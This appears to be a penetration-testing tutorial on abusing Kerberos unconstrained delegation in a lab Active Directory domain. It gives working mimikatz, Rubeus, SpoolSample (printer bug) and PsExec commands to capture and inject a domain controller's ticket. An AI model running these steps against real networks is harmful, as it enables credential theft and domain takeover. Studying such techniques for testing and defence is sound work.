

## The Theory
A web application existing inside the network only available for employees may use kerberos authentication.
For the web application to access an internal backend service such as a database, it will not have enough permissions just with the user's Ticket Granting Service.

To solve this double-hop issue, Microsoft introduced 3 types of kerberos delegation:
1. Unconstrained delegation
2. Constrained delegation
3. Resource Based Constrained Delegation

In case of unconstrained delegation, instead of a normal TGS, a _Forwardable TGT_ is issued.
The KDC returns a TGT with the _forward flag_ set along with a session key for that TGT and a regular TGS.
The user's client embeds the TGT and the session key into the TGS and sends it to the service, which can now impersonate the user to the backend service.

In case  of a malicious intent, since the frontend service receives a forwardable TGT, it can perform authentication on behalf of the user to any service (because of unconstrained delegation), not just the intended backend service.
This means, if a high privilege account's TGT is captured(such as an admin), we can authenticate it to any service, as that high privileged user.

## Exploitation
We start by enumeration of computers with unconstrained delegation with Powerview.
We can use the following command:
```Powershell
Get-DomainComputer -Unconstrained
```
Any account with the _TRUSTED_FOR_DELEGATION_  property set, has unconstrained delegation.
It's numerical value is 524288.


To freely user the tickets recieved from the users, we either need be logged in as the service account hosting the service, or the administrator.

The tickets can be listed and extracted and used using mimikatz with the following commands:
```mimikatz
privilege::debug
sekurlsa::tickets
sekurlsa::tickets /export
kerberos::ptt [0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi
```


Finally, we can use PsExec.exe to get command execution:
```cmd
.\PsExec.exe \\cdc01 cmd
```

## Exploiting Printer Bug
The RPC interface we leveraged locally is indeed also accessible over the network through TCP port 445 if the host firewall allows it.
The MS-RPRN documentation specifies that the RPC endpoint for the print spooler is \pipe\spoolss and that no authentication is required.

We can run the following command:
```cmd
dir \\cdc01\pipe\spoolss
```
The output reveals that the print spooler service is running and accessible.

When the "target" spooler accesses the named pipe on the "attacking" machine, it will present a forwardable TGT along with the TGS if the "attacking" machine is configured with unconstrained delegation.

We'll use Rubeus from an administrative command prompt in monitor mode, specify a refresh interval of 5 seconds with the /interval option, and filter on the domain controller machine account with the /filteruser option to extract the ticket:
```cmd
Rubeus.exe monitor /interval:5 /filteruser:CDC01$
```

With Rubeus monitoring for TGTs originating from the domain controller machine account, we'll open a second command prompt and trigger the print spooler change notification with SpoolSample.exe
```cmd
SpoolSample.exe CDC01 APPSRV01
```



We can now inject the ticket using Rubeus as well with:
```powershell
Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo...
```

With the tickets injected, we can now access services as the victim machine's machine account(which in this case holds replication rights and thus can perform dcsync attack to extract krbtgt hash and further perform golden ticket attacks)

